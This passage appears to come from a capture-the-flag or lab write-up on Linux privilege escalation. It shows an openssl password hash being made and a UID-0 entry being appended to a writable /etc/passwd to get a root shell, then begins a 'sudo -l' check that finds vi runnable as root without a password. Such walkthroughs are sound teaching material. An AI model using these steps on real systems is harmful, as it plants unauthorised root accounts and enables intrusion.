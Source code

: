 Exiting out of a root shell and moving horizontally could be considered a vertical privilege deescalation.

Create a compliant password hash to add with: “openssl passwd -1 -salt [salt] [password]”. What is the hash created by using this command with the salt, “new” and the password “123”?
```
user7@polobox:/home/user3$ openssl passwd -1 -salt new 123
$1$new$p7ptkEKU1HnaHpRtzNizS1

```
What would the /etc/passwd entry look like for a root user with the username “new” and the password hash we created before?
```
new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
```
Great! Now you've got everything you need. Just add that entry to the end of the /etc/passwd file!
```
ser7@polobox:/home/user3$ echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
user7@polobox:/home/user3$ su new
Password: 
Welcome to Linux Lite 4.4
 
You are running in superuser mode, be very careful.
 
Sunday 11 February 2024, 18:18:54
Memory Usage: 353/1991MB (17.73%)
Disk Usage: 6/217GB (3%)
 
root@polobox:/home/user3# 
```
## Escaping Vi Editor

First, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user8, with the password "password"
```
root@polobox:/home/user3# exit
exit
user7@polobox:/home/user3$ su user8
Password: 
Welcome to Linux Lite 4.4 user8
 
Sunday 11 February 2024, 18:20:36
Memory Usage: 353/1991MB (17.73%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 
user8@polobox:/home/user3$ 
```
Let's use the "sudo -l" command, what does this user require (or not require) to run vi as root?
```
user8@polobox:/home/user3$ sudo -l
Matching Defaults entries for user8 on polobox:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user8 may run the following commands on polobox:
    (root) NOPASSWD: /usr/bin/vi
user8@polobox:/home/user3$ 
```
